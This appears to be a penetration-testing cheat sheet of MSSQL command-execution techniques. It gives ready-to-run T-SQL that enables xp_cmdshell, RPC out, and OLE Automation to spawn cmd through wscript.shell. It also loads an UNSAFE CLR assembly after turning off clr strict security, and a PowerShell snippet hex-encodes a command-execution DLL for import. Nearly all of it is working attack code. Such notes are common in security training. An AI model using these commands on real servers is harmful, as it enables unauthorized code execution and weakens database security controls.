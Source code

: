### Command Execution

#### xp_cmdshell

```
EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE; EXEC xp_cmdshell whoami
```

##### Enable RPC Server

```
EXEC sp_serveroption 'sql03', 'rpc', 'true'; EXEC sp_serveroption 'sql03', 'rpc out', 'true';
```

#### sp_OACreate & sp_OAMethod

```
EXEC sp_configure 'Ole Automation Procedures', 1; RECONFIGURE;
DECLARE @myshell INT; EXEC sp_oacreate 'wscript.shell', @myshell OUTPUT; EXEC sp_oamethod @myshell, 'run', null, 'cmd /c \"" + sysCmd + "\"';
```

#### Stored Procedure Custom Assembly

DB has to have TRUSTWORTHY property set

```
# SQL Prep Summary
use msdb
EXEC sp_configure 'show advanced options',1
RECONFIGURE
EXEC sp_configure 'clr enabled',1
RECONFIGURE
EXEC sp_configure 'clr strict security', 0
RECONFIGURE

# SQL Import 
# CREATE ASSEMBLY myAssembly FROM 'c:\tools\cmdExec.dll' WITH PERMISSION_SET = UNSAFE;
CREATE ASSEMBLY my_assembly FROM 0x4D5A900..... WITH PERMISSION_SET = UNSAFE;

# Create Procedure
CREATE PROCEDURE [dbo].[cmdExec] @execCommand NVARCHAR (4000) AS EXTERNAL NAME [myAssembly].[StoredProcedures].[cmdExec];

# exec
EXEC cmdExec 'whoami'
```

PS Convert Assembly to Hex

```
$assemblyFile = "\\192.168.119.120\visualstudio\Sql\cmdExec\bin\x64\Release\cmdExec.dll"
$stringBuilder = New-Object -Type System.Text.StringBuilder
$fileStream = [IO.File]::OpenRead($assemblyFile)
while (($byte = $fileStream.ReadByte()) -gt -1) {
    $stringBuilder.Append($byte.ToString("X2")) | Out-Null
}
$stringBuilder.ToString() -join "" | Out-File c:\Tools\cmdExec.txt
```
